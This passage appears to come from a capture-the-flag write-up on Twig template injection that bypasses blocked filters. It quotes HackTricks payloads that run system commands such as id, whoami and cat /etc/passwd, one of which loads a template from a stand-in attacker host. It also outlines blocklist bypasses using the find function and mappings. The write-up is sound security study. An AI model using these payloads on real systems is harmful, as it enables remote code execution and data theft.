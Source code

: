 After constructing the necessary characters and strings, we want to call them. When checking payloads on HackTricks, we can see a pattern:

```php
#Exec code
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("whoami")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
{{['id',""]|sort('system')}}
```

The first four are useless, but the last four are interesting. They add a command to a sequence, then call a function like filter, map, sort, etc.

When reviewing the documentation for these functions, we see that all are arrow functions. With the known functions in the documentation blocked, we can turn to the source code for potential alternatives:

<img src="assets/image4.png" width="900" >

We find a `public` function called `find`, which is also an arrow function, meaning we can use it.

To bypass `[]`, we can use mappings, which are like `{key: value}`.
